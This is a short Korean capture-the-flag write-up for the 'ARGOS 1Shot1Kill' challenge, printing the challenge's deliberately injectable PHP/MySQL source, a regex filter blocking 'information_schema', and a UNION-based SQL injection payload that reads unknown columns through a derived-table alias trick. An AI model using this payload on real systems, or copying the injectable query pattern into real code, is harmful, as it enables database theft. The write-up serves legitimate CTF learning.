

# League Of Hackers (ARGOS): 1Shot1Kill(200)

문제 소스:

```php
<?php
require_once("func.php");
ini_set("display_errors", 1);
$host = "127.0.0.1";
$user = "####";
$pass = "####";
$id = $_GET['id'];
$pw = $_GET['pw'];

try {
    $conn = new PDO("mysql:host=$host;dbname=argos", $user, $pass);
} catch(PDOException $e) {
    print "DB error";
    print "\n".$e;
    die();
}
function reset_flag() {
    global $conn;
    $str = "abcdefghijklmnopqrstuvwxyz0123456789";
    $shuf = str_shuffle($str);
    $hide = substr($shuf, 0, 30);
    $stmt = $conn->query("update hide set $column_flag='$hide'");
    $stmt->execute();
    echo '<h3>[FLAG WAS RESET]</h3>';
}
if(preg_match("/information|schema|\./", $id) || preg_match("/information|schema|\./i", $pw))
    die("Nope");
if(isset($id) || isset($pw)) {
    try {
        $stmt = $conn->query("select $column_flag from hide");
        $curflag = $stmt->fetch()[0];
        $stmt = $conn->query("select $column_id from hide");
        $curid = $stmt->fetch()[0];
        $stmt = $conn->query("select * from hide where $column_id='{$id}' and $column_pw='{$pw}'");
        $result = $stmt->fetch();
        reset_flag();

        if($result[0] !== NULL)
            echo "Hello";
        echo "<hr>";
        if(($result[$column_id] === $curid) && ($result[$column_pw] === $curflag)) {
            echo 'flag : ARGOS{###################}';
        }
    } catch(Exception $e) {
        die();
    }
}
show_source("index.phps");
?>
```

실행할 때 마다 flag를 리셋한다. column명을 모르고 information_schema를 사용할 수 없을 때 injection을 어떻게 할것인가에 대한 문제다.

먼저 union select로 column의 갯수를 알아낸 뒤 injection해주면 된다.

> payload : http://192.168.101.202:62645/?id=a&pw=a' union select a,c,3,4 from(select 1\`a\`,2\`b\`,3\`c\`,4\`d\` union select * from hide)x limit 1,1 -- -


